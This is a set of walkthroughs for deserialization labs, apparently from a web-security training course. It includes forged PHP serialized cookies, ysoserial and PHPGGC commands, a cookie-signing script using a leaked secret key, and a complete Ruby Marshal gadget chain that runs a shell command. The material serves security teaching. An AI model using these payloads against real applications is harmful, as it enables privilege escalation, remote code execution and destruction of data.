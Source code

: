 Lab: Modifying serialized objects

    Log in using your own credentials. Notice that the post-login GET /my-account request contains a session cookie that appears to be URL and Base64-encoded.
    Use Burp's Inspector panel to study the request in its decoded form. Notice that the cookie is in fact a serialized PHP object. The admin attribute contains b:0, indicating the boolean value false. Send this request to Burp Repeater.
    In Burp Repeater, use the Inspector to examine the cookie again and change the value of the admin attribute to b:1. Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Send the request. Notice that the response now contains a link to the admin panel at /admin, indicating that you have accessed the page with admin privileges.
    Change the path of your request to /admin and resend it. Notice that the /admin page contains links to delete specific user accounts.
    Change the path of your request to /admin/delete?username=carlos and send the request to solve the lab.


Lab: Modifying serialized data types

    Log in using your own credentials. In Burp, open the post-login GET /my-account request and examine the session cookie using the Inspector to reveal a serialized PHP object. Send this request to Burp Repeater.
    In Burp Repeater, use the Inspector panel to modify the session cookie as follows:
        Update the length of the username attribute to 13.
        Change the username to administrator.
        Change the access token to the integer 0. As this is no longer a string, you also need to remove the double-quotes surrounding the value.
        Update the data type label for the access token by replacing s with i.

    The result should look like this:
```css
    O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
    Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Send the request. Notice that the response now contains a link to the admin panel at /admin, indicating that you have successfully accessed the page as the administrator user.
    Change the path of your request to /admin and resend it. Notice that the /admin page contains links to delete specific user accounts.
    Change the path of your request to /admin/delete?username=carlos and send the request to solve the lab.


Lab: Using application functionality to exploit insecure deserialization

    Log in to your own account. On the "My account" page, notice the option to delete your account by sending a POST request to /my-account/delete.
    Send a request containing a session cookie to Burp Repeater.
    In Burp Repeater, study the session cookie using the Inspector panel. Notice that the serialized object has an avatar_link attribute, which contains the file path to your avatar.

    Edit the serialized data so that the avatar_link points to /home/carlos/morale.txt. Remember to update the length indicator. The modified attribute should look like this:
    s:11:"avatar_link";s:23:"/home/carlos/morale.txt"
    Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.
    Change the request line to POST /my-account/delete and send the request. Your account will be deleted, along with Carlos's morale.txt file.


Lab: Arbitrary object injection in PHP

    Log in to your own account and notice the session cookie contains a serialized PHP object.
    From the site map, notice that the website references the file /libs/CustomTemplate.php. Right-click on the file and select "Send to Repeater".
    In Burp Repeater, notice that you can read the source code by appending a tilde (~) to the filename in the request line.
    In the source code, notice the CustomTemplate class contains the __destruct() magic method. This will invoke the unlink() method on the lock_file_path attribute, which will delete the file on this path.

    In Burp Decoder, use the correct syntax for serialized PHP data to create a CustomTemplate object with the lock_file_path attribute set to /home/carlos/morale.txt. Make sure to use the correct data type labels and length indicators. The final object should look like this:
    O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
    Base64 and URL-encode this object and save it to your clipboard.
    Send a request containing the session cookie to Burp Repeater.
    In Burp Repeater, replace the session cookie with the modified one in your clipboard.
    Send the request. The __destruct() magic method is automatically invoked and will delete Carlos's file.

Lab: Exploiting Java deserialization with Apache Commons

    Log in to your own account and observe that the session cookie contains a serialized Java object. Send a request containing your session cookie to Burp Repeater.

    Download the "ysoserial" tool and execute the following command. This generates a Base64-encoded serialized object containing your payload:

        In Java versions 16 and above:
        java -jar ysoserial-all.jar \
           --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
           --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
           --add-opens=java.base/java.net=ALL-UNNAMED \
           --add-opens=java.base/java.util=ALL-UNNAMED \
           CommonsCollections4 'rm /home/carlos/morale.txt' | base64

        In Java versions 15 and below:
        java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    In Burp Repeater, replace your session cookie with the malicious one you just created. Select the entire cookie and then URL-encode it.
    Send the request to solve the lab.

Lab: Exploiting PHP deserialization with a pre-built gadget chain

    Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the Inspector panel.
    Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.
    Copy the decoded cookie from the Inspector and paste it into Decoder.
    In Decoder, highlight the token and then select Decode as > Base64. Notice that the token is actually a serialized PHP object.
    In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:
        A developer comment discloses the location of a debug file at /cgi-bin/phpinfo.php.
        The error message reveals that the website is using the Symfony 4.3.6 framework.
    Request the /cgi-bin/phpinfo.php file in Burp Repeater and observe that it leaks some key information about the website, including the SECRET_KEY environment variable. Save this key; you'll need it to sign your exploit later.

    Download the "PHPGGC" tool and execute the following command:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 | tr -d '\n'
```

    This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's morale.txt file.
    You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:
        Assign the object you generated in PHPGGC to the $object variable.
        Assign the secret key that you copied from the phpinfo.php file to the $secretKey variable.
    <?php
    $object = "OBJECT-GENERATED-BY-PHPGGC";
    $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
    $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
    echo $cookie;

    This will output a valid, signed cookie to the console.
    In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

Lab: Exploiting Ruby deserialization using a documented gadget chain

    Log in to your own account and notice that the session cookie contains a serialized ("marshaled") Ruby object.

    BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVjN3F6MGxrNjlvaWQ0N29xdmEzMTg1aXhrdTJrZGQ4egY7B0YK
    
    Send a request containing this session cookie to Burp Repeater.
    Browse the web to find the Universal Deserialisation Gadget for Ruby 2.x-3.x by vakzz on devcraft.io. Copy the final script for generating the payload.
    Modify the script as follows:
        Change the command that should be executed from id to rm /home/carlos/morale.txt.
        Replace the final two lines with puts Base64.encode64(payload). This ensures that the payload is output in the correct format for you to use for the lab.
    Run the script and copy the resulting Base64-encoded object.
    In Burp Repeater, replace your session cookie with the malicious one that you just created, then URL encode it.
    Send the request to solve the lab.

rubyexploit.rb:

```ruby
require 'base64'
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

ruby rubyexploit.rb | tr -d '\n'

